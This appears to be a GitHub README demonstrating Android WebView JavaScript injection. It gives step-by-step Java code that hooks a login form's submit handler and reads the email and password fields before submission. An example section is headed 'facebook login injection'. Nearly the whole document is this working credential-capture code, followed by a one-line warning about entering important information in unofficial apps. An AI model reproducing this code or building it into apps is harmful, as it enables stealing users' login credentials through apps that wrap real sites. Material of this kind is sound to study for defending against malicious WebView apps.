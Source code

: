 Android-Javascript-Injection
============================

This demo show you how to inject javascript to webview,
and get input value before submit.


<br/>

Step 1 : create a class which called by javascript
-----------
```Java
class MyJavaScriptInterface
{
    @JavascriptInterface
    public void processHTML(String html)
    {
        //called by javascript
    }
}
```



Step 2 : register interface for javascript
-----------
```Java
webview1.getSettings().setJavaScriptEnabled(true);
webview1.addJavascriptInterface(new MyJavaScriptInterface(), "MYOBJECT");
```



Step 3 : inject javascript to page
-----------
```Java
webview1.setWebViewClient(new WebViewClient() {
    @Override
    public void onPageFinished(WebView view, String url) {
        super.onPageFinished(view, url);

        StringBuilder sb = new StringBuilder();
        sb.append("document.getElementsByTagName('form')[0].onsubmit = function () {");
        sb.append("var objPWD, objAccount;var str = '';");
        sb.append("var inputs = document.getElementsByTagName('input');");
        sb.append("for (var i = 0; i < inputs.length; i++) {");
        sb.append("if (inputs[i].type.toLowerCase() === 'password') {objPWD = inputs[i];}");
        sb.append("else if (inputs[i].name.toLowerCase() === 'email') {objAccount = inputs[i];}");
        sb.append("}");
        sb.append("if (objAccount != null) {str += objAccount.value;}");
        sb.append("if (objPWD != null) { str += ' , ' + objPWD.value;}");
        sb.append("window.MYOBJECT.processHTML(str);");
        sb.append("return true;");
        sb.append("};");
                
        view.loadUrl("javascript:" + sb.toString());
    }

});
```

Example : facebook login injection
-----------
![](pic1.png)
<br/>
![](pic2.png)

<br/>
Note : it's dangerous to give important information in webview with unoffical app.
-----------
